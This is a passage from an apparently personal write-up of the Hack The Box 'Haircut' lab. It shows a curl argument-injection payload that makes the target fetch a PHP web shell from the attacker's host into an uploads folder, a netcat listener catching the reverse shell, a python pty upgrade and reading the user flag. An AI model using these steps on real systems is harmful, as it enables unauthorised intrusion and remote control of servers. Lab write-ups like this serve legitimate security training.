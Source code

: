 <br />
Fiddle with the command.  I tried injecting a semicolon and double ampersand for injection.  There is some kind of check that those aren't appropriate characters for a url.  I also tried using the -o command to the web root at /var/www/html and got permission denied.  Finally, output to the uploads folder that was discovered in the ffuf.

{% raw %}
```bash
http://10.10.16.3/shell.php -o /var/www/html/uploads/shell.php
```
{% endraw %}
<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/haircut/injectedcurl.png" title="Injected Curl" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Navigate to the shell that was just uploaded in the uploads folder.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/haircut/penshell.png" title="Uploaded Shell" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the listener and catch the shell.  Use python to updgrade the shell.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/haircut]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.24] 51970
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 09:29:31 up 39 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
www-data@haircut:/$ 
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```bash
www-data@haircut:/home/maria$ cat user.txt
cat user.txt
<redacted>
www-data@haircut:/home/maria$ ifconfig
ifconfig
ens160    Link encap:Ethernet  HWaddr 00:50:56:b9:9a:4c  
          inet addr:10.10.10.24  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feb9:9a4c/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:9a4c/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1131333 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1125547 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:190200376 (190.2 MB)  TX bytes:426772575 (426.7 MB)

```